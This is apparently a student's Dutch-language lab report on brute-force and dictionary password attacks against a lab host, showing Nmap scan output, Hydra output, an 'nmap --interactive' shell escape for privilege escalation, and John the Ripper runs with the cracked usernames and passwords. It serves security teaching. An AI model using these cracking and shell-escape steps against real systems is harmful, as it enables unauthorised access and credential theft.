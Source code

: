 ```toc
```
## LAB 3. Brute force en dictionairy attacks

### 3.1 Online attack met Hydra
#### 3.1.1 Bruteforce attack met Hydra
```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-23 16:21 EST
Nmap scan report for 10.0.2.5
Host is up (0.00051s latency).
Not shown: 977 closed tcp ports (conn-refused)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
23/tcp   open  telnet
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
512/tcp  open  exec
513/tcp  open  login
514/tcp  open  shell
1099/tcp open  rmiregistry
1524/tcp open  ingreslock
2049/tcp open  nfs
2121/tcp open  ccproxy-ftp
3306/tcp open  mysql
5432/tcp open  postgresql
5900/tcp open  vnc
6000/tcp open  X11
6667/tcp open  irc
8009/tcp open  ajp13
8180/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 0.17 seconds
```

> Bij poort 21/tcp staat als status open voor de service ftp

> Als je alleen poort 21 scant zie je alleen ftp

In de commandline volgt
```
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-02-23 16:29:22

[ERROR] definition for password bruteforce (-x) generates more than 4 billion passwords - this is not a bug in the program, it is just not feasible to try so many attempts. Try a calculator how long that would take. duh. 
```
> In wireshark zie je ARP met info Who has 10.0.2.3? Tell 10.0.2.5 


> Het probleem met brute force is dat het te veel mogelijkheden test dit duurt te lang

#### Dictionairy attack  met hydra 

> Het wachtwoord is <span style="color:blue">service</span> 

>Dit gaat relatief snel omdat het aantal mogelijke passwords dat wordt gebruikt veel lager is

> De beperking van deze wijze van bruteforce is dat het wachtwoord in je database moet staan

### 3.2 Offline attack met John
- Na het inloggen met telnet en gebruiker "service"
- Vul in
```bash
nmap --interactive
```
- Daarna 
```bash
nmap> !sh
```

- Na het runnen van
```bash
john myfile.txt --wordlist=passwords.txt
```

Vind je de wachtwoorden
```bash
123456789        (klog)     
batman           (sys)     
service          (service)     
student          (student) 
```

> Met john krijg je gelijk het corresponderende wachtwoord van de gebruikers

- Om deze dictionairy te gebruiken gebruik ik het volgende commando
```bash
john myfile.txt --wordlist=all.txt
```
- Ik vond de volgende wachtwoorden 
```bash
user             (user)     
postgres         (postgres)  
```
